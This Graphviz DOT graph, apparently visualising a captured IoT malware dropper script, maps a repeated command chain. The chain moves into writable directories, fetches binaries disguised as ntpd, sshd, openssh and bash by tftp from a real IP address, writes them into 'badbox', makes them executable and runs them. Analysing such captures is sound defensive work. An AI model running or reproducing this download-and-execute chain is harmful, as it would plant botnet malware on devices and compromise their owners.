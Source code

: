 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 14 [label="||,"];
14 [label="tftp 45.32.67.139 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 34 [label="||,"];
34 [label="tftp 45.32.67.139 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 54 [label="||,"];
54 [label="tftp 45.32.67.139 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 74 [label="||,"];
74 [label="tftp 45.32.67.139 -c get bash "];
74 -> 75 [label=";,"];
}
